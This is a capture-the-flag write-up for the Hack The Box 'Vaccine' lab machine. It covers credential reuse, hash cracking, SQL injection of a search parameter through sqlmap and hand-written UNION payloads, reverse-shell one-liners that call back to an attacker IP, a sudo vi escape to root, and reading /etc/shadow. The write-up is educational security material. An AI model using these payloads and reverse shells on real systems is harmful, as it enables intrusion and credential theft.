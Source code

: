 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)  

![alt text](./img/vaccine.PNG?raw=true)  

## Recon-Enumeration  
![alt text](./img/vaccine01.PNG?raw=true)  

![alt text](./img/vaccine02.PNG?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/vaccine03.PNG?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/vaccine04.PNG?raw=true)  

This was too easy…..however this password can be easily cracked with John…  
![alt text](./img/vaccine05.PNG?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/vaccine06.PNG?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/vaccine07.PNG?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/vaccine08.PNG?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/vaccine09.PNG?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/vaccine10.PNG?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/vaccine12.PNG?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/vaccine11.PNG?raw=true)  

With this credential we can connect to port 22 of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
Attacker box: nc -nvlp 1234  
Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
Attacker box: nc -nvlp 4444  
Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  
![alt text](./img/vaccine13.PNG?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/vaccine14.PNG?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
PRESS ESC KEY  
:set shell=/bin/sh  
:shell  
![alt text](./img/vaccine15.PNG?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/vaccine17.PNG?raw=true)  

/etc/shadow  
![alt text](./img/vaccine16.PNG?raw=true)  
